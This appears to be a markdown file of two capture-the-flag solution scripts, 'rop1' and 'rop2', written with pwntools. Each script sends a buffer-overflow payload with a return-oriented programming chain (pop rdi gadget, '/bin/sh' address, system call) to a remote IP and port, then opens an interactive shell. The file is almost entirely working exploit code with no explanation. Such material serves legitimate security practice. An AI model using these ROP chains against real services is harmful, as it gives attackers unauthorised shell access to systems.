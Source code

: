 # rop1
```python
from pwn import *
sh_addr=0x601070
sys_addr=0x400630
rdi_addr=0x4008e3
pay='a'*(0x4+8)+p64(rdi_addr)+p64(sh_addr)+p64(sys_addr)
#p=process('./rop1')
p=remote('129.211.58.26',10001)
p.sendline(pay)
p.interactive()
```

# rop2
```python
from pwn import *

sh_addr=0x601080
sh='/bin/sh\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
get_addr=0x400670
sys_addr=0x400630
rdi_addr=0x4008e3

pay='a'*(0x4+8)+p64(rdi_addr)+p64(sh_addr)+p64(get_addr)+p64(rdi_addr)+p64(sh_addr)+p64(sys_addr)
#p=process('./rop2')
p=remote('129.211.58.26',10002)
p.sendline(pay)
p.sendline(sh)
p.interactive()
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE2MTAzODAyMDAsODA3Njk3MDgzXX0=
-->